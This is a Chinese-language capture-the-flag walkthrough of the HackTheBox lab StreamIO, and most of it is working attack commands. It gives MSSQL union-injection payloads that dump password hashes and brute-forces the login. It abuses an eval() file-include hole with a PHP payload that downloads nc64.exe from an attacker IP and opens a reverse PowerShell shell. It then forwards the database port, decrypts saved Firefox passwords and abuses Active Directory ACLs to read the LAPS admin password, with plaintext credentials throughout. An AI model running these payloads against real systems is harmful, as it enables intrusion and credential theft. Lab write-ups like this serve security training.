

# 信息收集

## nmap


## web界面

### 80端口

80端口为IIS的默认页面，通过对80端口扫目录和子域名爆破都无有用信息

### 443端口

#### 目录扫描&&子域名爆破

通过对443端口子域名爆破，爆破出watch.streamio.htb

```
ffuf -u "https://streamio.htb" -H "host:FUZZ.streamio.htb" -w /usr/share/wordlists/amass/subdomains-top1mil-20000.txt -mc 200 -ac
```


对https://streamio.htb扫目录


admin目录下还存在目录，对https://streamio.htb/admin进行扫目录

当然也可以对https://streamio.htb递归扫目录，但是这样会很慢，会将js，css等目录都会进行递归扫描

```
fuff -u "https://streamio.htb/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -recursion 2 -t 100 -maxtime-job 10

-recursion 2 表示递归两层
-maxtime-job 10 限制了扫描的最大时间，不会因为扫描超时而浪费时间
但是这样任然很慢，推荐还是分开扫描
```

```
gobuster dir  -u https://streamio.htb/admin  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 100 -x .php -k 
```


admin页面禁止访问，admin/master.php显示只能通过包含访问


对https://watch.streamio.htb扫目录扫到search.php


## mssql-union注入

在search.php中搜索`10' or 1=1-- `时回显发现攻击，此处应该可以尝试sql注入


### **判断闭合符**

如果直接搜索`"man"`名字中存在man的都会回显

说明这个查找是模糊查找，并且前后都有通配符，这样才会查找所有含有man的字段

sql语句类似为 `select * from movies where title like '%man%'`

<font color=red>（这里的闭合符是一个猜测，单引号不成立就可以使用双引号）</font>

如果输入`"man';--+"`，sql语句变为`select * from movies where title like '%man';--+%`，如果sql语句真是这样就只会匹配man前面有字符的，不会匹配man后面有字符的


说明sql语句就是这样的并且是单引号闭合

然后判断列数，使用order by时被禁止，使用group by时没有反应，最终使用union select逐级递增判断出是6列

### union注入

**先查数据库版本**，不同数据库用的函数不同，如下：

- Mssql select @@version
- Mysql select version（）/select @@version
- oracle select banner from ￥version
- Postgresql select version（）


#### **查询数据库名**

```
q=10' union select 1,name,3,4,5,6 from master..sysdatabases--+
```


streamio_backup查询表名时返回空，可能是权限问题

#### **查询表名**

```
q=10' union select 1,name,id,4,5,6 from STREAMIO.dbo.sysobjects where xtype='u'--+
```


```
movies 885578193
users 901578250
```

#### **查询列名**

```
q=10' union select 1,name,id,4,5,6 from STREAMIO.dbo.syscolumns where id in (885578193,901578250)--+
```


改变不同数据获取不同字段

| users(901578250) | id   | is_staff | password  | username |       |      |
| ---------------- | ---- | -------- | --------- | -------- | ----- | ---- |
| movie(885578193) | id   | imdb     | metascore | movie    | votes | yeat |

#### 获取数据

```
q=10' union select 1,concat(username,':',password),3,4,5,6 from users--+
```


```
admin :665a50ac9eaa781e4f7f04199db97a11
Alexendra :1c2b3d8270321140e5153f6637d3ee53
Austin :0049ac57646627b8d7aeaccf8b6a936f
Barbra :3961548825e3e21df5646cafe11c6c76
Barry :54c88b2dbd7b1a84012fabc1a4c73415
Baxter :22ee218331afd081b0dcd8115284bae3
Bruno :2a4e2cf22dd8fcb45adcb91be1e22ae8
Carmon :35394484d89fcfdb3c5e447fe749d213
Clara :ef8f3d30a856cf166fb8215aca93e9ff
Diablo :ec33265e5fc8c2f1b0c137bb7b3632b5
Garfield :8097cedd612cc37c29db152b6e9edbd3
Gloria :0cfaaaafb559f081df2befbe66686de0
James :c660060492d9edcaa8332d89c99c9239
Juliette :6dcd87740abb64edfa36d170f0d5450d
Lauren :08344b85b329d7efd611b7a7743e8a09
Lenord :ee0b8a0937abd60c2882eacb2f8dc49f
Lucifer :7df45a9e3de3863807c026ba48e55fb3
Michelle :b83439b16f844bd6ffe35c02fe21b3c0
Oliver :fd78db29173a5cf701bd69027cb9bf6b
Robert :f03b910e2bd0313a23fdd7575f34a694
Robin :dc332fb5576e9631c9dae83f194f8e70
Sabrina :f87d3c0d6c8fd686aacc6627f1f493a5
Samantha :083ffae904143c4796e464dac33c1f7d
Stan :384463526d288edcc95fc3701e523bc7
Thane :3577c47eb1e12c8ba021611e1280753c
Theodore :925e5408ecb67aea449373d668b7359e
username :5f4dcc3b5aa765d61d8327deb882cf99
Victor :bf55e15b119860a6e6b5a164377da719
Victoria :b22abb47a02b52d5dfa27fb0b534f693
William :d62be0dc82071bccc1322d64ec5b6c51
yoshihide :b779ba15cedfd22a023c4d8bcf5f2332
```


将username和password分开，尝试使用crackmapexec爆破smb和winrm


无任何账户可以登录


## 登录页面

https://streamio.htb/login.php此处存在登录页面，并且也有注册页面，但是注册成功了也无法用注册的账号密码登录

导入上面的账号密码，使用burpsuite的intruder模块爆破登录


查看返回包的长度，只有yoshihide用户的返回包长度和其他不一样，使用该账号密码登录后会跳转到https://streamio.htb

```
yoshihide:66boysandgirls..
```

并且login登录的按钮变为Login out，说明登录成功了


### admin页面

此时再访问admin页面就可以正常访问了


用户，员工，电影管理中除了删除没有其他有用的操作了，尝试删除是可以正常删除的，删除之后电影那边就没有了

### 参数爆破

但是可以发现不同的管理页面只是修改了https://streamio.htb/admin/?staff=的get参数，尝试爆破一下看看还有没有其它参数

爆破时需要加上cookie

```
ffuf -u "https://streamio.htb/admin/?FUZZ=" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 100 -H "Cookie: PHPSESSID=9rtpr42i9ig2d9f47dlcuevm04"
```


但是可以发现所有参数都可以访问，但是回显都是空


所以需要加上`-fs`参数过滤掉回显长度为1678的

```
 ffuf -u "https://streamio.htb/admin/?FUZZ=" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 100 -H "Cookie: PHPSESSID=9rtpr42i9ig2d9f47dlcuevm04" -fs 1678
```


爆破出debug参数，访问之后显示这个选项仅为开发者使用


debug参数为index.php时会报错


### 包含master.php

联想到前面master.php显示为只能被包含使用，尝试在这里包含使用


显示了所有管理信息，用户管理，成员管理，电影管理，说明包含master.php成功，尝试伪协议读取文件

可以读到index.php尝试读取`C:\Windows\System32\drivers\etc\hosts`也是可以的，说明存在该漏洞


### 文件读取&&任意代码执行--getshell

读取master.php，查看master.php的源码

```php
<h1>Movie managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
if(isset($_POST['movie_id']))
{
$query = "delete from movies where id = ".$_POST['movie_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from movies order by movie";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['movie']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST" action="?movie=">
				<input type="hidden" name="movie_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
<h1>Staff managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
$query = "select * from users where is_staff = 1 ";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
if(isset($_POST['staff_id']))
{
?>
<div class="alert alert-success"> Message sent to administrator</div>
<?php
}
$query = "select * from users where is_staff = 1";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['username']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST">
				<input type="hidden" name="staff_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
<h1>User managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
if(isset($_POST['user_id']))
{
$query = "delete from users where is_staff = 0 and id = ".$_POST['user_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from users where is_staff = 0";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['username']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST">
				<input type="hidden" name="user_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
```

分析这段代码，首先确保被包含，否则就输出需要被包含的提示


然后下面的内容就是前面所看到的，加载了所有的电影，用户，成员，并且可以执行删除操作

代码最后还有一个include参数的命令执行，读取post提交参数的文件内容，然后执行文件内容，这里利用恶意文件就可以命令执行


当include参数为index.php时输出ERROR，测试一下利用方式是否正确，当post提交index.php是页面最后确实回回显了ERROR，说明利用方式正确


然后构造恶意文件，尝试读取，注意文件保存的路径和引用路径需要用双斜线，单斜线无法保存和引用，但是不明白为什么dir的时候单斜线就可以

```
system("powershell -c wget http://10.10.16.2:8001/nc64.exe -outfile \\Windows\\Temp\\nc64.exe");
system("dir C:\Windows\Temp");
system("C:\\Windows\\Temp\\nc64.exe -e powershell 10.10.16.2 4000");

```




watch.streamio.htb/search.php

```
$connection = array("Database"=>"STREAMIO", "UID" => "db_user", "PWD" => 'B1@hB1@hB1@h');
```


```
db_user:B1@hB1@hB1@h
db_admin:B1@hx31234567890
```

### 连接数据库

使用chisel将靶机1433端口转发到攻击机的9999

```
./chisel_1.10.1_linux_amd64 server -p 8888 --reverse

./chisel.exe client 10.10.16.2:8888 R:9999:127.0.0.1:1433
```

攻击机就可以使用数据库连接工具连接数据库，使用`sqlcmd`以`db_user`用户连接到数据库，读取`streamio_backup`库会显示权限不足

```
./sqlcmd -S 127.0.0.1:9999 -U db_user -P B1@hB1@hB1@h
```


那就登录到`db_admin`用户来访问数据库,并且指定数据库为`streamio_backup`

查询表名


查询列名


获取数据


将数据保存到本地使用hashcat破解


将账号密码分别保存，使用crackmapexec爆破winrm和smb


```
nikk37:get_dem_girls2@yahoo.com
```

`nikk37`账户可以远程登录，并且也可以访问smb

该用户桌面就有user.txt

## 提权

### 火狐获取已保存的账号密码

所下载的软件中有火狐，可以尝试获取火狐浏览器中用户保存的账号密码


Firefox 将保存的密码存储在一个名为 `logon.json` 的文件中。

密钥存储在 `key4.db` ，一个 SQLite 数据库中

[lclevy/firepwd: firepwd.py, 一个用于解密 Mozilla 受保护密码的开源工具 --- lclevy/firepwd: firepwd.py, an open source tool to decrypt Mozilla protected passwords](./https://github.com/lclevy/firepwd)

Firepwd.py 是一个可以从 `key4.db` 或 `logins.json` 文件中恢复密码的工具

文件位置` C:\Users\nikk37\AppData\roaming\mozilla\Firefox\Profiles\br53rxeg.default-releas
e> `

将数据库文件下载到本地保存，然后运行脚本破解密码


将账号密码添加到之前的文件中，使用`crackmapexec`来枚举，都无法登录，但是JDgodd可以访问smb


### BloodHound

上传`SharpHound.exe`来收集域信息，将收集到的信息下载到本地导入`BloodHound`分析


已知凭证的账户JDGODD有writeOwner权限

该权限可以修改组的所有者

```powershell
#每次使用前需要改密码域名
upload powerview.ps1
Import-Module powerview.ps1
$pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\JDgodd"
```

`Add-DomainObjectAcl`该函数不可用就是因为模块没有导入，检查该模块是否导入的方法

```
检查已存在的模块
Get-Module
```


`JDgodd`成员现在已经成为核心成员

现在可以从计算机对象的 `ms-MCS-AdmPwd` 属性中读取 LAPS 密码：

```
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

或者，此密码也可以从我的主机通过 JDgodd 凭证从 LDAP 中读取（一旦用户在核心员工组中）：

```
ldapsearch -H ldap://10.10.11.158:389 -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```


得到密码就可以等到管理员用户


